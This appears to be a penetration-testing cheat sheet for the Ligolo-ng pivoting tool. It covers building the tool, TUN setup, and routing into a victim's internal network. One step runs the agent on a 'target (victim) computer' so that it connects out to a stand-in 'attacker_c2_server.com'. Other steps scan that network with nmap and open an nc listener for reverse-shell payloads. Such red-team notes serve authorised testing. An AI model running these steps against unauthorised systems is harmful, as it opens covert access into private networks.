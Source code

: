 # Ligolo-ng 

## Github repo: https://github.com/nicocha30/ligolo-ng

## Precompiled Binaries: https://github.com/nicocha30/ligolo-ng/releases

# Build

- go build -o agent cmd/agent/main.go

- go build -o proxy cmd/proxy/main.go

- Build for Windows

- GOOS=windows go build -o agent.exe cmd/agent/main.go

- GOOS=windows go build -o proxy.exe cmd/proxy/main.go

# Setup

### Linux

- sudo ip tuntap add user YOUR_USERNAME mode tun ligolo

- sudo ip link set ligolo up

- sudo ip route add IP_ADDRESS/SUBNET_MASK dev ligolo ( Configure the routing table so that it will direct traffic that is destined for the IP_ADDRESS/SUBNET_MASK network to be routed through our newly created TUN device.)

### Windows

#### You need to download the Wintun driver (used by WireGuard) and place the wintun.dll in the same folder as Ligolo (make sure you use the right architecture).

#### Links: https://www.wintun.net/

### Start the proxy server on your Command and Control (C2) server (default port 11601):

- ./proxy -h  (Help options)

- ./proxy -autocert (Automatically request LetsEncrypt certificates)

# Usage

 -  ./agent -connect attacker_c2_server.com:11601 (Start the agent on your target (victim) computer (no privileges are required!)

## TIP: If you want to tunnel the connection over a SOCKS5 proxy, you can use the --socks ip:port option. You can specify SOCKS credentials using the --socks-user and --socks-pass arguments.

### A session should appear on the proxy server.

 - INFO[0102] Agent joined. name=nchatelain@nworkstation remote="XX.XX.XX.XX:38000" (Example)

### Use the session command to select the agent.

 - ligolo-ng » session 

 - ? Specify a session : 1 - nchatelain@nworkstation - XX.XX.XX.XX:38000

### Display the network configuration of the agent using the ifconfig command:

 - [Agent : nchatelain@nworkstation] » ifconfig

### Add a route on the proxy/relay server to the 192.168.0.0/24 agent network.

 - sudo ip route add 192.168.0.0/24 dev ligolo (Linux)

 - netsh int ipv4 show interfaces

 - route add 192.168.0.0 mask 255.255.255.0 0.0.0.0 if [THE_INTERFACE_IDX] (Windows)

### Start the tunnel on the proxy

 - [Agent : nchatelain@nworkstation] » tunnel_start

 - [Agent : nchatelain@nworkstation] » INFO[0690] Starting tunnel to nchatelain@nworkstation   

### You can also specify a custom tuntap interface using the --tun iface option:

 - [Agent : nchatelain@nworkstation] » tunnel_start --tun MY_CUSTOM_TUN_TAP

 - [Agent : nchatelain@nworkstation] » INFO[0690] Starting tunnel to nchatelain@nworkstation   

### You can now access the 192.168.0.0/24 agent network from the proxy server.

## Examples:

 - $ nmap 192.168.0.0/24 -v -sV -n

 - [...]

 - $ rdesktop 192.168.0.123

 - [...]

# Agent Binding/Listening

### You can listen to ports on the agent and redirect connections to your control/proxy server.

### In a ligolo session, use the listener_add command.

 - [Agent : nchatelain@nworkstation] » listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4321 --tcp (Creates a TCP listening socket on the agent (0.0.0.0:1234) and redirect connections to the 4321 port of the proxy server)

 - INFO[1208] Listener created on remote agent!

### On the proxy:

 - nc -lvp 4321 (When a connection is made on the TCP port 1234 of the agent, nc will receive the connection.)

## TIP: This is very useful when using reverse tcp/udp payloads.

### You can view currently running listeners using the listener_list command and stop them using the listener_stop [ID] command:

 - listener_list

 - listener_stop ID

## Access to agent's local ports (127.0.0.1)

### If you need to access the local ports of the currently connected agent, there's a "magic" IP hardcoded in Ligolo-ng: 240.0.0.1 ( This IP address is part of an unused IPv4 subnet). If you query this IP address, Ligolo-ng will automatically redirect traffic to the agent's local IP address (127.0.0.1).

#### Example:

 - sudo ip route add 240.0.0.1/32 dev ligolo

 - nmap 240.0.0.1 -sV

